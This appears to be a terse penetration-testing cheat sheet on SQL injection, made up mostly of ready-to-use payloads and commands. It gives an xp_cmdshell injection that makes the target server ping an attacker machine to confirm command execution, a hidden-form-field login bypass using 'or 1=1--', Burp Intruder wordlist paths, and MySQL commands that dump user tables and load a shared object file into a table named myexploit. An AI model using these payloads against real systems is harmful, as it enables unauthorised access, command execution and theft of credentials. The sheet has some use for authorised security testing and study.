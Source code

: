 /usr/share/wordlists/wfuzz/Injections/All_attack.txt

#### Test the SQL remote command injection with tcpdump running

start the tcpdump tool

```
Root@kali> tcpdump icmp[icmptype]=icmp-echo -vvv -s 0 -X -i any -w ping.pcap

```
Try using double quote (") if single quote (') is not working. inject the following command

```
'; exec master..xp_cmdshell 'ping *attack-station*'—

```

### sql injection to hidden form


If you must do this with a hidden field, just download the source HTML from the site, save it in your hard disk, modify the URL and hidden field accordingly. 

```

<FORM action=http://duck/Search/search.asp method=post>
<input type=hidden name=A value="hi' or 1=1--">
</FORM>
```
If luck is on your side, you will get login without any login name or password. ![image.png](attachment:image.png)

### Burp SQL manual injections

http://kaoticcreations.blogspot.ca/2011/11/burp-suite-part-i-intro-via-sql.html

use burp intruder to inject sql from wordlists

```
/usr/share/wfuzz/wordlist/Injections
```


### SQL commands

```
mysql -u root -p

show databases;

use *database*;

select * from users;

select * from users where name = 'test' and password = '123456';

create table myexploit(line blob);

insert into myexploit values(load_file('/home/folder/1518.so'));

SELECT @@version
SELECT version()
SELECT banner from v*dollar-sign*version

```
